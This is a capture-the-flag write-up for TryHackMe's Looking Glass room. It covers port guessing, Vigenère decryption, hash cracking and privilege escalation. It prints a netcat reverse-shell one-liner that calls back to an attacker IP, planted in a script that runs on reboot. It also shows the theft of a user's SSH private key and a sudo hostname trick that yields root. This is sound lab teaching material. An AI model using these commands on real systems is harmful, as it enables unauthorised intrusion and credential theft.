 # TryHackMe — Looking Glass 🪞
🔗 Room Link: [Looking Glass](https://tryhackme.com/room/lookingglass)

📁 Difficulty: Medium

👤 Author: [KRY](https://tryhackme.com/p/KRY)

# Introduction
In this write-up, we’ll walk through the Looking Glass room from TryHackMe. This box presents a fun and unusual path — from playing a “hot or cold” guessing game with SSH ports, to decrypting Vigenère cipher text, and escalating privileges using a clever hostname trick.

It’s a great room for beginners and those looking to sharpen their skills in CTF challenges, cryptanalysis, and Linux privilege escalation techniques.

## Reconnaissance
We start with an Nmap scan:
```python
nmap -A 10.10.152.219
```
The scan showed many open ports, most of them:  Dropbear SSHD
## Port Guessing Game
We used SSH to probe the open ports using:
```python
ssh -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedAlgorithms=+ssh-rsa root@10.10.152.219 -p <port>
```
Depending on the port, we received different responses like Higher or Lower. This clearly indicated a port-guessing logic — similar to the hot and cold game.
After several attempts, we finally found the correct port — 13348 (note: this varies per instance).

## Vigenère Cipher Challenge
Upon connecting to the correct port, we received encrypted text. Using an online [Vigenère Cipher tool](https://www.boxentriq.com/code-breaking/vigenere-cipher), we configured the following settings:

* Min Key Length: 15

* Max Key Length: 20

* Iterations: 100

* Max Results: 20

After clicking Auto Solve, the tool provided a possible decryption key.
We then used [CyberChef](https://gchq.github.io/CyberChef/) to decode the ciphertext using the Vigenère Decode operation.
The result was a poem with a secret phrase at the end.

We submitted this phrase under the prompt:
```python
Enter Secret: ********
```
Which revealed SSH credentials:
```python
ssh jabberwock@10.10.152.219
```
## Jabberwock User Access
After logging in, we located the user.txt file. The content appeared reversed, so we used [CyberChef](https://gchq.github.io/CyberChef/) again with the Reverse function to decode it.

## Privilege Escalation (to tweedledum)
Running sudo -l revealed:
```python
User jabberwock may run the following commands on looking-glass:
    (root) NOPASSWD: /sbin/reboot
```
We found the script /home/jabberwock/twasBrillig.sh containing:
```python
wall $(cat /home/jabberwock/poem.txt)
```
We replaced the content of that file with a reverse shell:
```python
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1|nc <Your-IP> 4444 >/tmp/f
```
Started listener:
```python
nc -lvnp 4444
```
Then triggered it via:
```python
sudo reboot
```
Shell as tweedledum obtained!
## Access to humptydumpty
We stabilized the shell with:
```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```
Found the file humptydumpty.txt in tweedledum's home directory. It contained SHA256 hashes.
We cracked the [hashes.com](https://hashes.com/en/decrypt/hash) using hashes.com and got the password.
Switched user:
```python
su humptydumpty
```
## Gaining Access to Alice
As humptydumpty, we could access /home/alice but couldn't list files.
However, we navigated to:
```python
cd /home/alice/.ssh
cat id_rsa
```
And found a private SSH key: id_rsa.
We used it to log in as alice:
```python
ssh -i id_rsa alice@10.10.152.219
```
## Root Access
We ran LinPEAS and found the following interesting sudo right:
```python
sudo -h ssalg-gnikool /bin/bash
```
Since ssalg-gnikool is "looking-glass" reversed, this worked!
We got a root shell and read:
```python
cat /root/root.txt
```
# 🏁 Conclusion
This was a creative room blending classic techniques like LFI, port scanning, and SSH enumeration with fun puzzle elements like the Vigenère cipher and wordplay.
> 🧠 This is my third write-up. I hope it was helpful and clear to follow!
